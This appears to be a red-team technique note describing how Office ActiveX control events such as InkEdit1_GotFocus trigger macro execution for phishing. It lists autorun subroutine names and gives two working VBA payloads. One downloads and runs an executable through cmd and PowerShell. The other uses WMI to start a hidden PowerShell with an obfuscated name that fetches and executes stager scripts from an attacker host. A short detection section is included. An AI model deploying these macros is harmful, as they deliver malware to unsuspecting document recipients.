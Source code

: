 # ActiveX controls for macro execution




## Store Payload

* File -> Options -> Customize Ribbon -> Add developer tab
* Developer tab -> Controls -> Legacy Tools -> More Options
* More infos via here: http://www.greyhathacker.net/?p=948

## Autorun

| ActiveX Control | Subroutine name |
| --------------- | --------------- |
| Microsoft Forms 2.0 Frame | Frame1_Layout |
| Microsoft Forms 2.0 MultiPage | MultiPage1_Layout |
| Microsoft ImageComboBox Control, version 6.0 | ImageCombo21_Change |
| Microsoft InkEdit Control | InkEdit1_GotFocus |
| Microsoft InkPicture Control | InkPicture1_Painted, InkPicture1_Painting, InkPicture1_Resize |
| System Monitor Control | SystemMonitor1_GotFocus, SystemMonitor1_LostFocus |
| Microsoft Web Browser | WebBrowser1_BeforeNavigate2, WebBrowser1_BeforeScriptExecute, WebBrowser1_DocumentComplete, WebBrowser1_DownloadBegin, WebBrowser1_DownloadComplete, WebBrowser1_FileDownload, WebBrowser1_NavigateComplete2, WebBrowser1_NavigateError, WebBrowser1_ProgressChange, WebBrowser1_PropertyChange, WebBrowser1_SetSecureLockIcon, WebBrowser1_StatusTextChange, WebBrowser1_TitleChange |

## Execution

1. Uses InkEdit - a subroutine coming from an ActiveX control to execute its code.
2. downloading and executing an executable file using cmd.exe and PowerShell

### On disc

```vb
Sub InkEdit1_GotFocus()
Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('https://trusted.domain/file.exe','file.exe');Start-Process 'file.exe'", vbNormalFocus)
End Sub
```

### In memory

```vb
Sub InkEdit1_GotFocus()
    Debugging
End Sub

Public Function Debugging() As Variant
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root\cimv2:Win32_Process")
    objProcess.Create "powe" & "rshell.e" & "xe" & " -ExecutionPolicy Bypass -WindowStyle Hidden -noprofile -noexit -c if ([IntPtr]::size -eq 4) {(new-object Net.WebClient).DownloadString('https://attacker.domain/stager1.ps1') | iex } else {(new-object Net.WebClient).DownloadString('https://attacker.domain/stager2.ps1') | iex}"
End Function
```

## Detection

* Notification: "Some active content has been disabled, Click here to find out more"
* On disc and in-memory execution


## Tools
########
########

```meta
ttp: T1204.002
internal: false
requirements: 
results: user, admin
description: Using ActiveX controls in order to trigger execution via phishing
```